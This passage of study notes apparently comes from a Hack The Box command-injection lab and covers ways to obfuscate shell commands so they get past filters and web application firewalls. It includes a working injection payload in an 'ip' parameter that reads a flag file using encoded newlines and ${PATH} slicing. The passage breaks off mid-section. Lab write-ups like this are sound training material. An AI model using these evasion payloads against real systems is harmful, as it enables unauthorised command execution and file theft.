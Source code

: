 ### Linux Only

The chars that are not taken in account by bash include the backslash `\` and the positional parameter character `$@`. This works exactly as it did with the quotes, but in this case, `the number of characters do not have to be even`

```bash
who$@ami
w\ho\am\i
```

### Windows Only

(`^`) can be injected

```cmd-session
C:\htb> who^ami

21y4d
```

_**Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.**_

```
ip=127.0.0.1%0ac"a"t,${PATH:0:1}home${PATH:0:1}flag.txt%0aw"ho"ami
```

## Advanced Command Obfuscation

When dealing with Web Application Firewalls (WAFs), and basic evasion techniques may not necessarily work

We can try inverting the character cases of a command (e.g. `WHOAMI`) or alternating between cases (e.g. `WhOaMi`). This usually works because a command blacklist may not check for different case variations of a single word

with a Windows server PowerShell and CMD are case-insensitive

```powershell-session
PS C:\htb> WhOaMi

21y4d
```

However, when it comes to Linux and a bash shell, which are case-sensitive So we can try&#x20;

```shell-session
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

So if we try it in burp:
